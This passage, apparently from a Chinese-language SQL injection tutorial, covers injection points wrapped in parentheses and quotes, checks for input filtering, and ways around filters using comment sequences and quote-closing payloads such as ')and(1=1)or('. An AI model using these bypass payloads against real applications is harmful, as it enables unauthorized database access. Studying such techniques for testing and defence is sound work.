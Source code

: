 > select \* from user where id = ((1));
> 包裹多个括号……
> ```
>
> 
>
> ​	b. 单引号字符串+括号的注入
> 使用括号和单引号包裹参数，比如下面这种SQL。
>
> ```text
> select \* from user where username = ('zhangsan');
> select \* from user where username = (('zhangsan'));
> 包裹多个括号……
> ```
>
> 
>
> ​	c. 双引号字符串+括号的注入
> 使用括号和双引号包裹参数，比如下面这种SQL
>
> ```text
> select \* from user where username = ("zhangsan");
> select \* from user where username = (("zhangsan"));
> 包裹多个括号……
> ```



## 判断数据库语句过滤情况

> 正常输入sql语句如果通过查看回显来判断语句是否被过滤

 **判断列数**
> 如果order by被过滤则尝试绕过，如果无法绕过就无法得到列数，这时就无法用联合查询注入

 **判断显示位**
> 如果页面没有显示位，同样无法使用联合查询注入

 **报错信息**
> 如果没有报错信息返回，则无法使用报错注入



## 绕过过滤

**注释绕过**：`-- -`，`--+`，`#`，`--` （-- ，杠杠空格）

**注释符被过滤后的绕过**：若注释符被过滤，则需要知道数据库的运行规则

```
正常语句（*不存在，仅标志我们的注入点在这）
select 1 FROM users where '1*'

注入语句'and(1=1)or'
select 1 FROM users where '1'and(1=1)or''
里面的1=1可以为任何sql注入语句

再比如，正常语句（*不存在，仅标志我们的注入点在这）
select 1 FROM users where ('1*')

注入语句')and(1=1)or('
select 1 FROM users where ('1')and(1=1)or('')
里面的1=1同样可以为任何sql注入语句

又比如，正常语句（*不存在，仅标志我们的注入点在这）
SELECT * FROM users WHERE id='$id*' LIMIT 0,1

```